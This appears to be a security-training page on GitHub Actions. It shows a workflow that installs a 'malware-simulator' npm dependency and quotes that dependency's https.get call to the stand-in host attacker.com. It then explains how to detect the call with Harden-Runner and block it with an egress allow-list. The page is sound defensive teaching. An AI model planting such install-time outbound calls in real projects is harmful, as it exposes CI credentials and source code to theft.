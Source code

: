 # Filter Network Traffic

## Example Action: 
Description:
An example GitHub Actions workflow that allows unrestricted outbound network access, potentially exposing source code and CI/CD credentials.

```
name: "Hosted: Network Monitoring with Harden-Runner"
on:
  workflow_dispatch:

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: step-security/harden-runner@v2
        with:
          egress-policy: audit
      - uses: actions/checkout@v3
      - name: npm install
        run: |
          cd ./src/exfiltration-demo
          npm install
      - name: Publish to Registry
        uses: elgohr/Publish-Docker-Github-Action@v5
        with:
          name: ${{ github.repository }}/prod:latest
          username: ${{ github.actor }}
          password: ${{ secrets.GITHUB_TOKEN }}
          registry: ghcr.io
          workdir: ./src/exfiltration-demo
```

Here src/package.json has following dependencies
```
  "dependencies": {
    "@step-security/malware-simulator": "file:../malware-simulators/exfiltration-simulator"
  },
```

And the malware-simulator is making a call to `https://attacker.com/`
```
https
  .get("https://attacker.com/", (res) => {
    // handle response
  }
```

## Steps to Identify the Vulnerability:
### Review Outbound Network Access:
Use `step-security/harden-runner@v2` in your workflow and then Run the workflow.
```
- uses: step-security/harden-runner@v2
  with:
    egress-policy: audit
```

After the workflow completes, check out the build logs. In the Harden-Runner step, you will see a link to security insights and recommendations. When you open the link you will see dashboard like this. Here you can figure out all the outbound network calls and check if any of the domain looks suspicious. 
<img width="1063" alt="Screenshot 2023-12-10 at 3 44 08 PM" src="https://github.com/learningcicd/github-actions-goat-test/assets/76629897/5b689ee6-6e0a-498d-b517-2ab9695a6853">

## Steps to Mitigate the Vulnerability:
### Block calls to domains 
Analyze the output of the Harden-Runner step, it will give you insight of which outbound calls are happening and in which step this calls are being made. You can either choose to replace such code for those steps or you can choose to block calls to all domains except the allowed domains which you configure. You can do allowed domains configuration by changing the `step-security/harden-runner@v2` step as follow
```
- name: Harden Runner
  uses: step-security/harden-runner@v2
  with:
    disable-sudo: true
    egress-policy: block
    allowed-endpoints: >
      ghcr.io:443
      github.com:443
      registry.npmjs.org:443
```

